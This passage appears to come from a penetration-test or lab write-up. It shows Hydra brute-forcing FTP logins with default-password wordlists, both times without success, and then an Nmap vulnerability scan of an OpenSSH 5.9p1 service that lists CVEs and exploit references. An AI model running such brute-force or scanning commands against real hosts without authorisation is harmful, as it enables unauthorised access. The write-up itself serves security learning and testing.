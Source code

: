 ```sh
$ hydra -s 21 -C /usr/share/legion/wordlists/ftp-betterdefaultpasslist.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:37:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:37:40
```

```sh
$ hydra -s 21 -C /usr/wl/brutex_ftp_userpass.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:42:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 75 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:43:16

```

## SSH (:22)

So maybe SSH will be successful?

```sh
$ sudo nmap -sS -sV --script=default,vuln -p 22 34.253.63.1 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 11:13 CEST
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.56% done; ETC: 11:14 (0:00:00 remaining)
Nmap scan report for ec2-52-19-2-77.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.0075s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
| vulners: 
|   cpe:/a:openbsd:openssh:5.9p1: 
|     	EDB-ID:40888	7.8	https://vulners.com/exploitdb/EDB-ID:40888	*EXPLOIT*
|     	EDB-ID:41173	7.2	https://vulners.com/exploitdb/EDB-ID:41173	*EXPLOIT*
|     	SSV:60656	5.0	https://vulners.com/seebug/SSV:60656	*EXPLOIT*
|     	CVE-2018-15919	5.0	https://vulners.com/cve/CVE-2018-15919
|     	CVE-2017-15906	5.0	https://vulners.com/cve/CVE-2017-15906
|     	CVE-2010-5107	5.0	https://vulners.com/cve/CVE-2010-5107
|     	SSV:90447	4.6	https://vulners.com/seebug/SSV:90447	*EXPLOIT*
|     	EDB-ID:45233	4.6	https://vulners.com/exploitdb/EDB-ID:45233	*EXPLOIT*
|     	EDB-ID:45210	4.6	https://vulners.com/exploitdb/EDB-ID:45210	*EXPLOIT*
|     	EDB-ID:45001	4.6	https://vulners.com/exploitdb/EDB-ID:45001	*EXPLOIT*
|     	EDB-ID:45000	4.6	https://vulners.com/exploitdb/EDB-ID:45000	*EXPLOIT*
|     	EDB-ID:40963	4.6	https://vulners.com/exploitdb/EDB-ID:40963	*EXPLOIT*
|     	EDB-ID:40962	4.6	https://vulners.com/exploitdb/EDB-ID:40962	*EXPLOIT*
|     	CVE-2016-0778	4.6	https://vulners.com/cve/CVE-2016-0778
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|_    	CVE-2016-0777	4.0	https://vulners.com/cve/CVE-2016-0777
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```